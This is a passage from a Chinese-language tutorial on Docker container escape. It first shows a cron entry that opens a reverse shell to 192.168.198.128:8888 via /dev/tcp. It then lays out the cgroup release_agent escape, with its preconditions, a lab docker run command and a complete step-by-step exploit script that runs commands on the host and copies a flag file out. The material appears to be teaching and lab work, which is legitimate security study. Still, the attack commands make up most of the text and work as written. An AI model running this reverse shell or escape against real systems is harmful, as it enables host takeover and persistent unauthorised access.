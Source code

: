 
相同也可以通过计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`



### **Cgroup执行宿主机系统命令**

docker使用cgroup进行资源限制，当cgroup中最后一个任务结束且notify_on_release开启，release_agent可执行事先提供的命令，因此可以利用这个特性来实现容器的逃逸。

### **漏洞利用条件**



1.以root用户身份在容器内运行 

2.使用SYS_ADMINLinux功能运行 

3.缺少APPArmor配置文件，否则将允许mountsyscall 

4.cgroup V1虚拟文件系统必须以读写方式安装在容器内

~~~text
#### 环境搭建

docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:18.04  
~~~

![image-20231008151550551](Docker逃逸漏洞案例.assets/image-20231008151550551.png)

### **漏洞利用**

```text
# 挂载宿主机cgroup，自定义一个cgroup，/tmp/cgrp/x 
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x 
# 设置/tmp/cgrp/x的cgroup的notify_no_release和release_agent 
#  设置/tmp/cgrp/x的notify_no_release属性设置为1，通过sed匹配出/etc/mtab中perdir=的路径,然后将路径+cmd写入/tmp/cgrp/release_agent 
echo 1 > /tmp/cgrp/x/notify_on_release 
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` 
echo "$host_path/cmd" > /tmp/cgrp/release_agent 
# 写入自定义命令 
echo '#!/bin/sh' > /cmd 
# 结果在当前目录的output文件中 
echo "cat /flag.txt > $host_path/output" >> /cmd 
chmod a+x /cmd 
# 执行完sh -c之后，sh进程自动退出，cgroup /tmp/cgrp/x里不再包含任何任务，/tmp/cgrp/release_agent文件里的shell将被操作系统内核执行,达到了容器逃逸的效果 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
```
